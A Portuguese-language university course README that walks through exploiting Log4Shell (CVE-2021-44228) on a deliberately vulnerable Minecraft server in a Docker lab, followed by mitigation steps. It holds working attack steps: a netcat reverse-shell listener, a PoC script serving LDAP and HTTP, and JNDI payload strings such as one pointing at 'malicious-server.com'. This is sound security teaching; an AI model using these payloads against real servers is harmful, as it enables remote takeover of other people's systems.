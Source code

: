 # Exploração da Vulnerabilidade Log4Shell em um servidor Minecraft

## Membros do Grupo

- **Pedro Kenzo Muramatsu Carmo** - 11796451
- **Giovanni Shibaki Camargo** - 11796444
- **Matheus Giraldi Alvarenga** - 12543669
- **Gustavo Henrique Brunelli** - 11801053

- [Vídeo de Apresentação](https://youtu.be/Fwg9idz1wvM)

## Introdução

Este repositório contém o trabalho de pentest realizado para a disciplina SSC0900 - Engenharia de Segurança, sob orientação do Prof. Dr. Rodolfo Ipolito Meneguette. O objetivo deste projeto é explorar a vulnerabilidade Log4Shell (CVE-2021-44228) em um servidor Minecraft e demonstrar a execução de um exploit, bem como discutir as medidas de mitigação e segurança.

## Vulnerabilidade Log4Shell

### Origem

A vulnerabilidade Log4Shell, identificada como CVE-2021-44228, surgiu em dezembro de 2021 e impactou o Log4j, uma biblioteca de registro em log amplamente utilizada em aplicações Java. A Log4j é mantida pela Apache Software Foundation e é usada para registrar eventos, informações e diagnósticos, sendo fundamental para a depuração e monitoramento de sistemas.

### Funcionamento

A Log4Shell explora uma falha específica no Log4j que permite a execução remota de código (RCE - Remote Code Execution). A vulnerabilidade ocorre devido a uma função da biblioteca Log4j que resolve strings que contêm certas sequências de caracteres especiais, conhecidas como JNDI (Java Naming and Directory Interface).

Quando uma entrada de log contém uma string como `${jndi:ldap://malicious-server.com/a}`, o Log4j tenta resolver essa string e, inadvertidamente, faz uma solicitação JNDI ao servidor remoto presente na string maliciosa. Se esse servidor remoto for malicioso, ele pode retornar um payload que será executado na máquina que está rodando a aplicação, concedendo ao atacante o controle total do sistema.

### Perigos e Usos

Os perigos associados à vulnerabilidade Log4Shell incluem:

1. **Instalação de Malwares:** O atacante pode enviar um payload que baixa e instala malware na máquina alvo. Esse malware pode ser um trojan, ransomware, ou qualquer outro tipo de software malicioso.
2. **Mineração de Criptomoedas:** Um payload pode instalar um minerador de criptomoedas, que utiliza os recursos da máquina comprometida para minerar moedas digitais.
3. **Criação de Backdoors:** O atacante pode instalar um backdoor que permite acesso contínuo ao sistema comprometido, incluindo a criação de novas contas de usuário com privilégios elevados.
4. **Roubo de Dados:** O payload pode exfiltrar dados sensíveis do sistema, enviando-os de volta ao servidor do atacante.
5. **Execução de Comandos Arbitrários:** Permite ao atacante executar comandos arbitrários no sistema comprometido, podendo modificar arquivos ou desativar serviços críticos.

### Resolução

A Apache Software Foundation respondeu rapidamente ao lançar patches para corrigir a vulnerabilidade. A atualização para o Log4j versão 2.15.0, lançada em 6 de dezembro de 2021, desativou a funcionalidade de resolução JNDI por padrão e implementou controles mais rigorosos.

Medidas de mitigação adicionais incluem:

- Configurar firewalls e proxies para bloquear requisições JNDI externas.
- Desativar a funcionalidade JNDI manualmente, configurando parâmetros de inicialização da aplicação.

## Roteiro de Implementação

### Preparação do Ambiente

1. **Configuração da Máquina Virtual:**
   - Crie uma máquina virtual (VM) utilizando um serviço como VirtualBox ou VMware.
   - Instale um sistema operacional Linux (Ubuntu ou Kali Linux) na VM, dedicando ao menos 4GB de memória RAM, 20GB de armazenamento e 4 núcleos de processamento.

2. **Instalação do Docker:**
   - Abra o terminal e instale o Docker com os seguintes comandos:
     ```sh
     sudo apt update
     sudo apt install -y apt-transport-https ca-certificates curl software-properties-common
     curl -fsSL https://download.docker.com/linux/ubuntu/gpg | sudo apt-key add -
     sudo add-apt-repository "deb [arch=amd64] https://download.docker.com/linux/ubuntu $(lsb_release -cs) stable"
     sudo apt update
     sudo apt install -y docker-ce
     sudo systemctl status docker
     ```

3. **Instalação do Docker Compose:**
   - Instale o Docker Compose para facilitar a gestão dos containers:
     ```sh
     sudo curl -L "https://github.com/docker/compose/releases/download/1.29.2/docker-compose-$(uname -s)-$(uname -m)" -o /usr/local/bin/docker-compose
     sudo chmod +x /usr/local/bin/docker-compose
     docker-compose --version
     ```

### Configuração do Servidor Minecraft Vítima

1. **Clone do Repositório:**
   - Clone o repositório que contém a configuração do servidor Minecraft vulnerável e vá para a pasta `vitima`:
     ```sh
     git clone git@github.com:giovanni-shibaki/SSC0900_Minecraft_Log4Shell.git
     cd SSC0900_Minecraft_Log4Shell/victim
     ```

2. **Configuração do Container Docker:**
   - No diretório do projeto clonado, construa e inicie o container Docker para simular o servidor Minecraft vulnerável:
     ```sh
     docker build . -t minecraft-demo
     docker run –name servidor-vitima -p 25565:25565 minecraft-demo
     ```

### Configuração do Sistema Atacante e Cliente Minecraft

1. **Preparação do Ambiente do Atacante:**
   - Entre na pasta `attacker` do repositório clonado:
     ```sh
     cd ../attacker
     ```

2. **Instalação de Dependências do Python:**
   - Instale os requerimentos e dependências do Python:
     ```sh
     pip install -r requirements.txt
     ```

3. **Inicialização do Netcat Listener:**
   - Inicie o Netcat listener para aceitar a conexão de shell reversa:
     ```sh
     nc -lvnp 9001
     ```

4. **Execução do Script Python:**
   - Execute o script Python para configurar e iniciar os servidores LDAP e HTTP:
     ```sh
     python3 poc.py --userip localhost --webport 8000 --lport 9001
     ```

5. **Conexão ao Servidor Minecraft:**
   - Acesse o servidor Minecraft vítima através de um cliente Minecraft.

### Execução do Ataque

1. **Envio da String Maliciosa:**
   - Envie, pelo chat do jogo, a seguinte mensagem:
     ```sh
     ${jndi:ldap://<ip-do-host>:1389/a}
     ```

2. **Verificação do Acesso:**
   - Verifique o terminal onde o Netcat Listener foi iniciado e observe que você terá acesso total ao ambiente shell do servidor vítima.

## Mitigação

Para mitigar a vulnerabilidade Log4Shell, siga estas estratégias:

1. **Atualização e Patching:**
   - Atualize a biblioteca Log4j para a versão 2.15.0 ou superior.

2. **Desativação de Funcionalidades Vulneráveis:**
   - Desative a resolução de mensagens que incluem JNDI configurando a propriedade do sistema:
     ```sh
     -Dlog4j2.formatMsgNoLookups=true
     ```

3. **Configuração Segura do Log4j:**
   - Limite o acesso JNDI e implemente validações e filtragem rigorosas nas entradas registradas pelo Log4j.

4. **Monitoramento e Detecção:**
   - Utilize sistemas de detecção e prevenção de intrusões (IDS/IPS) e ative o monitoramento contínuo dos logs de aplicações.

5. **Hardening de Sistema:**
   - Configure sistemas e aplicações para operar com o menor nível de privilégio necessário e execute serviços críticos em ambientes isolados.

## Referências

- [Log4Shell: CVE-2021-44228](https://nordvpn.com/wp-content/uploads/2020/02/Penetration-test-Featured-1.jpg)
- [Repositório GitHub](https://github.com/giovanni-shibaki/SSC0900_Minecraft_Log4Shell)
- [Arquivos Necessários 1](https://drive.google.com/file/d/1JTHU1uTIcG6qWSNPLhUaYtvS9_jMaGcc/view?usp=sharing)
- [Arquivos Necessários 2](https://drive.google.com/file/d/1J5Fy97HpteE7w7ALnNAYKO1WKtfO1av_/view?usp=sharing)



